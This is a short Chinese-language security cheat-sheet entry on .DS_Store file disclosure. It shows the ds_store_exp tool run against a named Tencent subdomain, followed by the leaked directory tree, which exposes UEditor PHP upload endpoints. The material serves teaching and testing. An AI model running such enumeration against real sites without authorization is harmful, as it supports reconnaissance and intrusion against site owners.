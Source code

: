 ### `.DS_Store` 文件泄露

Mac OS 中会包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds＿store＿exp](https://github.com/lijiejie/ds_store_exp)。

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
            │           │   ├── controller.php
            │           │   └── Uploader.class.php
            │           ├── ueditor.all.js
            │           ├── ueditor.all.min.js
            │           ├── ueditor.config.js
            │           ├── ueditor.parse.js
            │           └── ueditor.parse.min.js
            └── static
                ├── css
```